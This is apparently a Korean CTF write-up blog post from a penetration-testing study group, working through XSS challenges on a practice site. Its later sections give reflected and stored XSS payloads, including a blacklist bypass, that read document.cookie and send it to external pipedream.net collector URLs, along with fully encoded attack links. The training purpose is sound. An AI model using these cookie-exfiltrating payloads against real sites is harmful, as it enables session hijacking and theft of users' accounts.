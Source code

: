```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[CTF] CTF 문제 풀이: XSS"
excerpt: "모의해킹 취업반 스터디 7기 9주차"

date: 2024-12-18
last_modified_at: 

tags: [TIL, WEB]
---
```


# XSS 1
## index.php

## login.html

## signup.html

### signup.php
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-18-1.png?raw=true)

## qna_board.php

## qna.php
### qna_create.php

## notice_list.php
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-18-2.gif?raw=true)
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-18-3.gif?raw=true)
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-18-4.gif?raw=true)

## notice_write.php
### notice_write_process.php

## mypage.php
### mypage_update.php

# xss2
## notice_list.php의 search 부분 -> reflected xss
```js
');
let c = document.cookie;
console.log(c);
let i = new Image();
console.log(i);
i.src = "https://eot2jevtyijbm2l.m.pipedream.net/?cookie=" + c;
let tmp=('
```

link: <http://ctf.segfaulthub.com:4343/xss_2/notice_list.php?option_val=username&board_result=');let+c=document.cookie;console.log(c);let+i=new+Image();console.log(i);i.src="https://eoxee0fw4m1u2sw.m.pipedream.net/?cookie="%2Bc;let+tmp=('&board_search=%F0%9F%94%8D&date_from=&date_to=>

# xss3
notice_list.php의 search 부분은 html entity로 치환
## mypage -> reflected xss

```html
<img src=. onerror='
let c=document.cookie;
let i=new Image();
i.src="https://eot2jevtyijbm2l.m.pipedream.net/?cookie="+c;'>
```
+ -> %2B
<img+src=.+onerror='let+c=document.cookit;let+i=new+Image();i.src="https://eoxee0fw4m1u2sw.m.pipedream.net/?cookie="%2Bc;'>
# xss4
## notice_list -> stored xss
script, alert <- black list filtering
`<img src=. onerror="prompt(1)">`

```html
<img src=. onerror="let cookie = document.cookie;let img = new Image();img.src = 'https://eot2jevtyijbm2l.m.pipedream.net/?cookie=' + cookie;">
```

# xss5

# xss6
# login.php
id=
```js
');
let c=document.cookie;
let i=new Image();
i.src="https://eoxee0fw4m1u2sw.m.pipedream.net/?cookie="+c;
console.log('
```
pw=1
id=');let+c="test";let+i=new+Image();i.src="https://eoxee0fw4m1u2sw.m.pipedream.net/?cookie="%2Bc;console.log('&pw=1

link: http://ctf.segfaulthub.com:4343/xss_7/login.php?id=');let+c="test";let+i=new+Image();i.src="https://eoxee0fw4m1u2sw.m.pipedream.net/?cookie="%2Bc;alert(c);alert(i);console.log('&pw=1
link: http://ctf.segfaulthub.com:4343/xss_7/login.php?id=');let+c=document.cookie;let+i=new+Image();i.src="https://eoxee0fw4m1u2sw.m.pipedream.net/?cookie="%2Bc;console.log(c);console.log('&pw=